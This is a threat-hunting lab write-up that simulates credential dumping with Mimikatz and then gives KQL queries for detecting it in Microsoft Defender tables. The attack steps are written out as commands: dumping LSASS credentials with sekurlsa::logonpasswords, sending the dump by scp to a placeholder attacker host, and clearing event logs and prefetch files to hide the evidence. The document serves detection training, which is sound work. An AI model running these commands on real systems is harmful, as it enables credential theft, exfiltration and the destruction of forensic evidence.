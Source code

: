 # Threat Event (Credential Dumping with Mimikatz)
**Unauthorized Execution of Mimikatz**

## Steps the "Bad Actor" took to Create Logs and IoCs:
1. Download Mimikatz:
  - Obtained mimikatz_master.zip from a known repository or a malicious link (e.g., https://github.com/ParrotSec/mimikatz)
  - Extracted it to a temporary folder: C:\Users\<User>\AppData\Temp\Local\mimikatz-master\
2. Execute Mimikatz:
  - Renamed the binary "mimikatz.exe" to "mimi64.exe" to evade basic file-name detections.
  - Ran Mimikatz with typical arguments to dump credentials from LSASS:
    ```mimi64.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > C:\Users\<User>\AppData\Local\Temp\creddump.txt```
3. Exfiltration of the dumped credentials:
  - Attacker attempts to upload creddump.txt to a remote host.
    ```scp C:\Users\<User>\AppData\Local\Temp\creddump.txt <threat-actor>@<threat-host>:/home/<threat-actor>```
4. Cleanup:
  - Clears PowerShell or Windows Event Logs to hide evidence of unauthorized usage.
    ```Remove-Item "C:\Users\<User>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"```
    ```wevtutil cl Application```
    ```wevtutil cl Security```
    ```wevtutil cl System```
  - Removes or renames Mimikatz-related artifacts to avoid detection in subsequent scans.
    ```del "C:\Users\<User>\AppData\Local\Temp\creddump.txt"```
    ```Remove-Item -Recurse -Force "C:\Users\<User>\AppData\Local\Temp\mimikatz-master"```
    ```del "C:\Windows\Prefetch\MIMI64.EXE*.pf"```


---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used for detecting the download of the Mimikatz ZIP or EXE file, as well as any credential dump files created.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the Mimikatz process creation (mimi64.exe), command-line arguments, and any subsequent processes launched.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| If Mimikatz or a related script attempts to exfiltrate the credential dump file, these logs can detect unusual outbound traffic.|

---

## Related Queries:
```kql
// 1. Detect known Mimikatz file downloads or suspicious file name patterns
DeviceFileEvents
| where FileName has_any ("mimikatz", "mimi", "katz", "mk")
| project Timestamp, DeviceName, FileName, FolderPath, ActionType, InitiatingProcessAccountName

// 2. Identify Mimikatz execution via typical file names or rename attempts
DeviceProcessEvents
| where FileName in ("mimikatz", "mimi", "katz", "mk")
    or ProcessCommandLine has_any ("mimikatz", "mimi", "katz", "sekurlsa::logonpasswords", "privilege::debug")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine, ActionType

// 3. Detect creation of the credential dump file (e.g. creddump.txt)
DeviceFileEvents
| where FileName has_any("creddump.txt", "creds.txt", "dump.txt", "lsass.txt")
| project Timestamp, DeviceName, FileName, ActionType, FolderPath, InitiatingProcessCommandLine

// 4. Look for unusual outbound connections that might indicate data exfiltration
DeviceNetworkEvents
| where InitiatingProcessFileName in ("mimikatz.exe", "mimi64.exe", "mimi.exe", "powershell.exe")
| where RemoteIP != "InternalIPs"  // Adjust for your environment's internal IP ranges
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// 5. Check for event log clearing after Mimikatz usage
DeviceProcessEvents
| where ProcessCommandLine has_any ("wevtutil cl", "Clear-EventLog")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, ActionType
```

---

## Created By:
- **Author Name**: Clay Hickman
- **Author Contact**: https://www.linkedin.com/in/joshmadakor/
- **Date**: February 26, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `February 26, 2025`  | `Clay Hickman`   

